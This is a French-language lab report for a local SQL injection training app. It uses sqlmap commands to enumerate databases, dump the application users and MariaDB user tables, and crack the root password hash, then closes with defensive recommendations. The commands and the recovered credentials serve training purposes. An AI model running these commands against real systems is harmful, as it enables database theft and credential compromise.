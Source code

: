 # 🛡️ SQL Injection Training App - Rapport d'Exploitation 🛡️

<div align="center">

![SQL Injection](https://evalian.co.uk/wp-content/uploads/2022/04/XSS-Attacks.png)

</div>
---

## 📋 Objectif

Ce projet a pour but de démontrer l'exploitation de vulnérabilités d'injection SQL dans une application web. Les objectifs spécifiques sont :

1. **Extraire le schéma de la base de données** et le sauvegarder dans un fichier `.csv`.
2. **Lister les utilisateurs de l'application** et les sauvegarder dans un fichier `.csv`.
3. **Lister les utilisateurs de MariaDB** et les sauvegarder dans un fichier `.csv`.
4. **Obtenir et documenter le mot de passe de l'utilisateur root de MariaDB** par force brute.
5. **Challenge 2 : Obtenir et documenter le mot de passe de l'administrateur de l'application**.

---

## 🛠️ Pré-requis

- **sqlmap** : Outil puissant pour automatiser la détection et l'exploitation des vulnérabilités d'injection SQL.
- **MariaDB** : Système de gestion de base de données utilisé par l'application cible.
- **Accès à l'application web vulnérable**.

---

## 🚀 Étapes Réalisées

### 1. 🔍 Identification des Vulnérabilités d'Injection SQL

En testant les champs du formulaire `register.php` avec une apostrophe (`'`), une erreur SQL a été générée, révélant l'utilisation de MariaDB. Cela a indiqué une potentielle vulnérabilité d'injection SQL.

**erreur :**

```
Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'd41d8cd98f00b204e9800998ecf8427e','','')' at line 1
```

---

### 2. 🗄️ Extraction du Schéma de la Base de Données

**Commande utilisée :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       --dbs --batch
```

**Bases de données identifiées :**

- `information_schema`
- `mysql`
- `performance_schema`
- `sqlitraining`
- `sys`

Nous avons ciblé la base de données `sqlitraining` pour extraire son schéma.

**Extraction des tables de `sqlitraining` :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining --tables --batch
```

**Tables trouvées :**

- `products`
- `users`

**Dump du schéma dans un fichier `.csv` :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining --dump --dump-format=CSV --batch
```

---

### 3. 👥 Liste des Utilisateurs de l'Application

En ciblant la table `users` de la base `sqlitraining`, nous avons extrait les utilisateurs de l'application.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining -T users --dump --dump-format=CSV --batch
```

**Résultat :**

Les informations des utilisateurs ont été sauvegardées dans `application_users.csv`.

---

### 4. 🗝️ Liste des Utilisateurs de MariaDB

Nous avons ciblé la base de données `mysql`, qui contient les informations des utilisateurs de MariaDB.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D mysql -T user --dump --dump-format=CSV --batch
```

**Résultat :**

La liste des utilisateurs de MariaDB a été extraite et sauvegardée dans `mariadb_users.csv`.

---

### 5. 🔐 Récupération du Mot de Passe de l'Utilisateur Root de MariaDB

En analysant les données extraites, nous avons récupéré le hachage du mot de passe de l'utilisateur `root`.

**Hachage récupéré :**

```
81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
```

**Déchiffrement du hachage :**

Nous avons utilisé [CrackStation](https://crackstation.net/) pour déchiffrer le hachage.

**Mot de passe obtenu :**

```
root
```

*Le mot de passe est étonnamment simple, ce qui souligne l'importance d'utiliser des mots de passe forts.*

---

### 6. 🏆 Challenge 2 : Récupération du Mot de Passe de l'Administrateur de l'Application

En examinant la table `users`, nous avons identifié l'utilisateur administrateur.

**Commande :**

```bash
sqlmap -u "http://localhost:8888/register.php" \
       --data="uid=test&password=test&name=test&descr=test" \
       -D sqlitraining -T users --dump --dump-format=CSV --batch
```

**Mot de passe de l'administrateur :**

```
admin
```

*Encore une fois, un mot de passe faible qui peut être facilement compromis.*

---

## 📁 Fichiers Générés

- **Schéma de la base de données** : [`database_schema.csv`](./database_schema.csv)
- **Liste des utilisateurs de l'application** : [`application_users.csv`](./application_users.csv)
- **Liste des utilisateurs de MariaDB** : [`mariadb_users.csv`](./mariadb_users.csv)
- **Mot de passe root de MariaDB** : [`mariadb_root_password.txt`](./mariadb_root_password.txt)
- **Mot de passe administrateur de l'application** : [`application_admin_password.txt`](./application_admin_password.txt)

---

## 📊 Résumé des Résultats

| Objectif                                                       | Statut    |
|---------------------------------------------------------------|-----------|
| Extraction du schéma de la base de données                    | ✅ Réussi |
| Liste des utilisateurs de l'application                       | ✅ Réussi |
| Liste des utilisateurs de MariaDB                             | ✅ Réussi |
| Récupération du mot de passe root de MariaDB                  | ✅ Réussi |
| Challenge 2 : Mot de passe de l'administrateur de l'application | ✅ Réussi |

---

## 🔒 Conclusion et Recommandations

Cette exploitation démontre à quel point les applications web peuvent être vulnérables aux attaques par injection SQL si elles ne sont pas correctement sécurisées.

**Recommandations :**

- **Utiliser des requêtes préparées** : Éviter les concaténations de chaînes pour construire des requêtes SQL.
- **Valider et assainir toutes les entrées utilisateur** : Utiliser des fonctions d'échappement et de validation.
- **Mots de passe forts** : Toujours utiliser des mots de passe complexes et uniques pour les utilisateurs et les administrateurs.
- **Mises à jour régulières** : Garder les systèmes et les applications à jour avec les derniers correctifs de sécurité.
- **Limiter les privilèges** : Les utilisateurs ne devraient avoir que les privilèges nécessaires pour accomplir leurs tâches.

